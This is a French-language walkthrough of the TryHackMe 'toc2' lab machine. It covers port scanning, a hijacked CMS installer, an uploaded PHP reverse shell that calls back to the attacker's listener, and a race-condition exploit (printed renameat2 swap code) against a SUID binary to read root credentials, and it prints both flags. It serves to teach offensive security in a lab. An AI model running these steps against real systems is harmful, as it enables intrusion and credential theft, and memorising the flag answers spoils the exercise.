




# toc2 #

## Task 1 Get Connected ##

## Task 2 Exploit the Machine ##

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo sh -c "echo '10.10.79.41 toc2.thm' >> /etc/hosts"
[sudo] Mot de passe de tim : 

tim@kali:~/Bureau/tryhackme/write-up$ sudo nmap -A toc2.thm -p-
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-06 20:20 CEST
Nmap scan report for toc2.thm (10.10.79.41)
Host is up (0.064s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 84:4e:b1:49:31:22:94:84:83:97:91:72:cb:23:33:36 (RSA)
|   256 cc:32:19:3f:f5:b9:a4:d5:ac:32:0f:6e:f0:83:35:71 (ECDSA)
|_  256 bd:d8:00:be:49:b5:15:af:bf:d5:85:f7:3a:ab:d6:48 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/cmsms/cmsms-2.1.6-install.php
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site Maintenance
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=9/6%OT=22%CT=1%CU=42468%PV=Y%DS=2%DC=T%G=Y%TM=61365C27
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=FF%GCD=1%ISR=104%TI=Z%CI=Z%TS=A)SEQ(SP=FF%
OS:GCD=1%ISR=104%TI=Z%CI=Z%II=I%TS=A)OPS(O1=M506ST11NW6%O2=M506ST11NW6%O3=M
OS:506NNT11NW6%O4=M506ST11NW6%O5=M506ST11NW6%O6=M506ST11)WIN(W1=F4B3%W2=F4B
OS:3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN(R=Y%DF=Y%T=40%W=F507%O=M506NNSNW6%
OS:CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y
OS:%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%R
OS:D=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%
OS:S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPC
OS:K=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 554/tcp)
HOP RTT      ADDRESS
1   32.09 ms 10.9.0.1
2   56.19 ms toc2.thm (10.10.79.41)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 77.78 seconds

```

On voit d'après le scan 2 services :
Le service SSH sur le port 22.    
Le sevice HTTP sur le port 80, on a aussi la confirmation que le site possède un fichier robots.txt.   



Sur la page principale on voit des identifiants qui sont : cmsmsuser:devpass 

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl http://toc2.thm/robots.txt
User-agent: *
Disallow: /cmsms/cmsms-2.1.6-install.php
 
Note to self:
Tommorow, finish setting up the CMS, and that database, cmsmsdb, so the site's ready by Wednesday.    
```

Dans le fichier robots on trouve un chemin pour installer cmsms et le nom de la base de données.   



On se trouve sur une page d'installation.    

1. Welcome :    
On fait Next.   

2. Detect existing sofware :       
On fait install

3. Compability Tests :      
On fait Next   

4. Configuration Info :    

On remplit les champs suivants : 
Database Name : cmsmsdb    
User name     : cmsmsuser   
Password      : devpass   

Puis on fair Next.   

5. Admin Account info :   
User name : admin   
Email : admin@admin.com   
Password : devpass        
Repeat password : devpass    

6. Site Settings :    
Web Site Name : toto     
On fait Next.     

7. Files : 
On fait Next.   

8. Database work   
On fait Next.      

9. Finish


    

On se connect avec les identifiants admins.   
Nom : admin     
Mot de passe : devpass    

```bash
tim@kali:~/Bureau/tryhackme/write-up$ wget https://raw.githubusercontent.com/timruff/php-reverse-shell/master/php-reverse-shell.php -nv
2021-09-06 21:46:53 URL:https://raw.githubusercontent.com/timruff/php-reverse-shell/master/php-reverse-shell.php [5491/5491] -> "php-reverse-shell.php" [1]
tim@kali:~/Bureau/tryhackme/write-up$ sed -i 's/127.0.0.1/10.9.228.66/g' php-reverse-shell.php 
```

On télécharge et configure un reverse shell.   

     
Dans content -\> File Manager on téléverse notre reverse shell.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
listening on [any] 1234 ...
```

On écoute sur le port 1234 pour se connecter au reverse shell.    

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl http://toc2.thm/cmsms/uploads/php-reverse-shell.php
```

**Find and retrieve the user.txt flag**

On lance le shell.   

```bash
im@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.9.228.66] from (UNKNOWN) [10.10.79.41] 52302
Linux toc 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 19:58:10 up  1:45,  0 users,  load average: 1.54, 1.67, 1.64
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id 
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ ls /home/
frank
$ cat /home/frank/user.txt
thm{63616d70657276616e206c696665}
```

On trouve un utilisateur frank.   
On lit le fichier user.txt.    
On a notre flag.   

La réponse est : thm{63616d70657276616e206c696665}   

**Escalate your privileges and acquire root.txt**

```bash
$ cat new_machine.txt
I'm gonna be switching computer after I get this web server setup done. The inventory team sent me a new Thinkpad, the password is "password". It's funny that the default password for all the work machines is something so simple...Hell I should probably change this one from it, ah well. I'm switching machines soon- it can wait. 
```

Dans new_machine.txt on trouve le mot de passe de frank qui est password.    

```bash
tim@kali:~/Bureau/tryhackme/write-up$ ssh frank@toc2.thm
The authenticity of host 'toc2.thm (10.10.79.41)' can't be established.
ECDSA key fingerprint is SHA256:yTycaZWh9cm8DVX9Cw1zHZtmao7U7ugPSYsf1ZgX0wM.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'toc2.thm,10.10.79.41' (ECDSA) to the list of known hosts.
frank@toc2.thm's password: 
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-112-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

 System information disabled due to load higher than 1.0


76 packages can be updated.
0 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


*** System restart required ***
Last login: Mon Sep  6 20:56:37 2021 from 10.9.228.66

frank@toc:~$ ls -al
drwxr-xr-x 5 frank frank 4096 Aug 18  2020 .
drwxr-xr-x 3 root  root  4096 Aug 18  2020 ..
-rw------- 1 frank frank    1 Aug 18  2020 .bash_history
-rw-r--r-- 1 frank frank  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 frank frank 3771 Apr  4  2018 .bashrc
drwx------ 2 frank frank 4096 Aug 18  2020 .cache
drwx------ 3 frank frank 4096 Aug 18  2020 .gnupg
-rw------- 1 root  root   203 Aug 18  2020 .mysql_history
-rw-r--r-- 1 frank frank  807 Apr  4  2018 .profile
-rw-r--r-- 1 frank frank    0 Aug 18  2020 .sudo_as_admin_successful
-rw------- 1 root  root  1468 Aug 18  2020 .viminfo
-rw-r--r-- 1 frank frank  331 Aug 17  2020 new_machine.txt
drwxr-xr-x 2 frank frank 4096 Jan 31  2021 root_access
-rw-r--r-- 1 frank frank   34 Aug 18  2020 user.txt

frank@toc:~$ cd root_access

frank@toc:~$ ls -al
total 28
drwxr-xr-x 2 frank frank 4096 Jan 31  2021 .
drwxr-xr-x 5 frank frank 4096 Aug 18  2020 ..
-rwsr-xr-x 1 root  root  8704 Jan 31  2021 readcreds
-rw-r--r-- 1 root  root   656 Jan 31  2021 readcreds.c
-rw------- 1 root  root    34 Aug 23  2020 root_password_backup

```
```cpp
$ cat readcreds.c
#include <string.h>
#include <stdio.h>
#include <unistd.h>
#include <sys/types.h>
#include <fcntl.h>
#include <errno.h>
#include <stdlib.h>

int main(int argc, char* argv[]) {
    int file_data; char buffer[256]; int size = 0;

    if(argc != 2) {
        printf("Binary to output the contents of credentials file \n ./readcreds [file] \n"); 
	exit(1);
    }

    if (!access(argv[1],R_OK)) {
	    sleep(1);
	    file_data = open(argv[1], O_RDONLY);
    } else {
	    fprintf(stderr, "Cannot open %s \n", argv[1]);
	    exit(1);
    }

    do {
        size = read(file_data, buffer, 256);
        write(1, buffer, size);
    } 
    
    while(size>0);

}
```

On trouve un répertoire root_access.   
Dans ce répertoire on trouve le code source readcreds.   
Ce fichier lit juste un fichier que lui donne en argument et affiche le contenu sur la sortie standard.   
Avant d'ouvrir la fonction access vérifie si on a le droit d'ouvrir le fichier.  
Cette fonction a une faille de sécurité qui permet entre la vérification et l'ouverture de manipuler le fichier.     

```bash
tim@kali:~/Bureau/tryhackme/write-up$ wget https://raw.githubusercontent.com/sroettger/35c3ctf_chals/master/logrotate/exploit/rename.c -nv
2021-09-06 22:35:02 URL:https://raw.githubusercontent.com/sroettger/35c3ctf_chals/master/logrotate/exploit/rename.c [295/295] -> "rename.c" [1]
tim@kali:~/Bureau/tryhackme/write-up$ cat rename.c 
#define _GNU_SOURCE
#include <stdio.h>
#include <fcntl.h>
#include <stdio.h>
#include <unistd.h>
#include <sys/syscall.h>
#include <linux/fs.h>

int main(int argc, char *argv[]) {
  while (1) {
    syscall(SYS_renameat2, AT_FDCWD, argv[1], AT_FDCWD, argv[2], RENAME_EXCHANGE);
  }
  return 0;
}
tim@kali:~/Bureau/tryhackme/write-up$ gcc rename.c -o rename

scp: /root_access/rename: No such file or directory
tim@kali:~/Bureau/tryhackme/write-up$ scp ./rename frank@toc2.thm:~/root_access/
frank@toc2.thm's password: 
rename                                      

```

On télécharge un fichier pour exploiter une race condition, on le compile et on le transfère sur la machine cible. 

```bash
frank@toc:~/root_access$ touch pwd
frank@toc:~/root_access$ ./rename pwd root_password_backup &
[1] 3270
frank@toc:~/root_access$ touch pwd
frank@toc:~/root_access$ ./readcreds root_password_backup
Cannot open root_password_backup 
frank@toc:~/root_access$ ./readcreds root_password_backup
Cannot open root_password_backup 
frank@toc:~/root_access$ ./readcreds root_password_backup
Cannot open root_password_backup 
frank@toc:~/root_access$ ./readcreds root_password_backup
frank@toc:~/root_access$ ./readcreds root_password_backup
frank@toc:~/root_access$ ./readcreds root_password_backup
Root Credentials:  root:aloevera 
```

On crée un faux fichier qui va servir de fichier d'échange avec celui de root_password_backup.   
On lance notre race condition en tâche de fond.   
Après plusieurs essais on arrive à avoir les identifiants : root:aloevera.    

```bash
frank@toc:~/root_access$ su root
Password: 
root@toc:/home/frank/root_access# cat /root/root.txt
thm{7265616c6c696665}
```

On s'identifie en tant que root.  
On lit le fichier root.txt   

La réponse est : thm{7265616c6c696665}    

